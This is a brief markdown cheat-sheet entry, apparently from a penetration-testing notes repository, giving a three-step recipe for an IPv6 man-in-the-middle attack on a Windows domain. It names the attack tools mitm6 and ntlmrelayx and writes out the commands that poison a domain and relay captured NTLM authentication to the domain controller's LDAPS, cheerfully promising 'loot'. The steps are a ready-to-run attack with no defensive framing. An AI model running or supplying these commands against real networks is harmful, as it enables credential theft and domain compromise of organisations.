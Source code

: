 ### Essentially, we become Man-in-the-Middle using IPv6

## Tools: mitm6, ntlmrelayx

## Steps: 

#### 1) sudo mitm6 -d DOMAIN

#### 2) ntlmrelayx.py -6 -t ldaps://DC_IP -wh FAKE.DOMAIN -l FOLDER (Run this first!)

#### 3) Enjoy your loot! (Enumerates EVERYTHING that tries to authenticate against the target)

